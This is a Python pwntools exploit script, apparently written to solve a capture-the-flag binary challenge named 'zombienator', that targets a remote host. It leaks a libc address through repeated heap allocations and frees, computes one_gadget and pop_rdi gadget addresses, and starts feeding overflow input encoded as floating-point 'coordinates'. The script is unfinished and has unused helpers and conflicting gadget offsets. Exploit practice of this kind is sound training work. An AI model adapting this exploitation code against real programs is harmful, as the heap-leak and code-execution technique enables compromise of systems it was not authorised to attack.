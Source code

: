 from pwn import *

exe = ELF("./zombienator_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

#p = process()
p = remote('94.237.63.224',52944)
#gdb.attach(p,gdbscript='''
#           brva 0x000000000000193D
#           ''')

#input()
def create(size,idx):
    p.sendlineafter(b'>> ',b'1')
    p.sendlineafter(b"Zombienator's tier: ",size)
    p.sendlineafter(b'Front line (0-4) or Back line (5-9): ',idx)


def free_(idx):
    p.sendlineafter(b'>> ',b'2')
    p.sendlineafter(b"Zombienator's position: ",idx)

def display():
    p.sendlineafter(b'>> ',b'3')


for i in range(10):
    create(b'130',str(i).encode())
#input()
for i in range(10):
    free_(str(i).encode())
display()
p.recvuntil(b'[7]: ')
leak = u64(p.recv(6).ljust(8,b'\x00'))

libc.address = leak - 0x219ce0
log.info(f"libc: {hex(libc.address)}")

one_gadget = libc.address + 0xebc85

payload = str(struct.unpack('d', p64(1))[0]).encode()
def fmt(payload):
    p.sendlineafter(b'Enter coordinates: ',str(struct.unpack('d', p64(payload))[0]))
p.sendlineafter(b'>> ',b'4')
p.sendlineafter(b'Number of attacks: ',b'36')
pop_rdi = libc.address + 0x000000000002a3e5
one_gadget = libc.address + 0xebc88
for i in range(35):
    p.sendlineafter(b'Enter coordinates: ',b'.')
input()
